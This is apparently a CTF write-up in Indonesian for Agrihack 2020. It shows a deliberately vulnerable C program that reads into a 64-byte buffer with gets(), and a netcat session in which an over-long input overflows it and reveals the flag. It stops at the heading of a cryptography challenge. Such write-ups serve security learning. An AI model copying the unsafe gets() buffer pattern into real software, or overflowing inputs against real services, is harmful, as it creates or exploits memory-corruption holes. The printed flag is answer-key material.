 # WriteUp-Agrihack-2020

## Binary Exploitation
## FLOW 1 (100 Pts)

Diberikan sebuah source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

//gcc flow1.c -m32 -fno-stack-protector -no-pie -o flow1

void logo(){
  puts("██╗     ██╗███╗   ██╗███████╗");
  puts("██║     ██║████╗  ██║╚══███╔╝");
  puts("██║     ██║██╔██╗ ██║  ███╔╝ ");
  puts("██║     ██║██║╚██╗██║ ███╔╝  ");
  puts("███████╗██║██║ ╚████║███████╗");
  puts("╚══════╝╚═╝╚═╝  ╚═══╝╚══════╝");
}

void setup(){
	setvbuf(stdin,0,2,0);
	setvbuf(stdout,0,2,0);
}


int main(int argc, char **argv)
{
  logo();
  setup();
  volatile int modified;
  char buffer[64];
  modified = 0;
  
  printf("Put some text: ");

  gets(buffer);

  if(modified != 0) {
      system("cat flag.txt");
  } else {
      printf("Try again?\n");
  }
}
```

Dan sebuah nc 52.187.65.2 17001.
Dari code kita tahu bahwa buffer overflow terjadi ketika data char lebih dari 64 byte, langsung saja kita input karakter lebih dari 64 byte

```
ilham@ilham-Acer:~$ nc 52.187.65.2 17001
██╗     ██╗███╗   ██╗███████╗
██║     ██║████╗  ██║╚══███╔╝
██║     ██║██╔██╗ ██║  ███╔╝ 
██║     ██║██║╚██╗██║ ███╔╝  
███████╗██║██║ ╚████║███████╗
╚══════╝╚═╝╚═╝  ╚═══╝╚══════╝
Put some text: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
agrihack{Toooooooooo_much_character_is_dangerous_LINZ_IS_HERE}
/home/ctf/run_challenge.sh: line 2:   853 Segmentation fault      (core dumped) ./chall
```

**flag: agrihack{Toooooooooo_much_character_is_dangerous_LINZ_IS_HERE}**

## Cryptography

## Basic64 (100 Pts)
Diberikan file enc.txt dan dilihat isinya:
